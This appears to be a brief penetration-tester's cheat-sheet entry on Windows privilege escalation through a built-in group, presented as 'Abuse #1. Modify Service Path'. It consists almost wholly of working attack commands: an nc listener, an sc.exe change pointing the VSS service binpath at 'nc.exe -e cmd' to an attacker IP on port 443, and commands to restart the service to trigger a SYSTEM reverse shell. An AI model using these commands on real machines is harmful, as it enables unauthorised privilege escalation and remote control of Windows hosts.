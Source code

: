 ```yaml
---
title: "Built-in Group"
date: 2024-7-24
tags: ["built-in group", "active driectory", "ad", "Windows", "privesc"]
---
```


---
#### Abuse #1. Modify Service Path

```bash
# Start a nc listener
rlwrap nc -lvnp 443
```

```powershell
# Assumed nc.exe is uploaded
sc.exe config VSS binpath="C:\ProgramData\nc.exe -e cmd 10.10.14.10 443"
```

```powershell
# Stop service
sc.exe stop VSS
```

```powershell
# Start service
sc.exe start VSS
```

<br>
